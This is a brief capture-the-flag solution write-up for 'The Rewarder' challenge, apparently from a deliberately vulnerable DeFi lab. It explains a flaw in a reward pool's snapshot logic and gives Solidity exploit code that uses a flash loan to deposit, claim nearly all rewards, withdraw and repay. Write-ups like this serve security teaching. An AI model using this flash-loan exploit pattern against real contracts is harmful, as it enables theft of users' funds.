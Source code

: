 ## The Rewarder solution

In this challenge we have to claim almost all rewards from the `TheRewarderPool` for ourselves. The pool uses snapshot mechanism, remembering the token supply and balances for later access. It mints `accountingTokens` for the `dvt` tokens deposited to the pool on 1:1 ratio, that are used to calculate the rewards. There is also a `withdraw` function, which burns the `accountingTokens` and transfers the `dvt`.
The issue here is that anybody can withdraw their `dvt` tokens at any point in time, so it is easy to claim all the rewards using a flashloan.

```
    function attack() public {
        flashPool.flashLoan(dvt.balanceOf(address(flashPool)));
    }
```
```
    fallback() external {
        uint256 loanAmount = dvt.balanceOf(address(this));
        dvt.approve(address(rewarderPool), loanAmount);
        rewarderPool.deposit(loanAmount);
        _withdrawRewards();
        rewarderPool.withdraw(loanAmount);
        dvt.transfer(address(flashPool), loanAmount);
    }
```